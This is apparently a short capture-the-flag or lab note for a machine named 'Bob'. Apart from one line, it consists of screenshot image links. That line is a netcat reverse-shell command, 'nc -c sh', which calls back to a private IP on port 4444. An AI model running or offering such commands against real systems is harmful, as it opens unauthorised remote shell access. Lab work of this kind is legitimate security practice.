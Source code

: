 # Bob
10 August 2022
07:15 PM

<img src="bob/media/image1.png" style="width:4.19167in;height:2in" />

<img src="bob/media/image2.png" style="width:5.6in;height:2.15833in" />

<img src="bob/media/image3.png" style="width:5.55833in;height:1.80833in" />

<p>echo nc -c sh 192.168.43.208 4444|$0</p>

<img src="bob/media/image4.png" style="width:5.45in;height:1.425in" />

<img src="bob/media/image5.png" style="width:5.33333in;height:0.91667in" />

<img src="bob/media/image6.png" style="width:6.71667in;height:2.125in" />

<img src="bob/media/image7.png" style="width:6.84167in;height:4.11667in" />

<img src="bob/media/image8.png" style="width:8.125in;height:1.1in" />

<img src="bob/media/image9.png" style="width:7.79167in;height:3.28333in" />
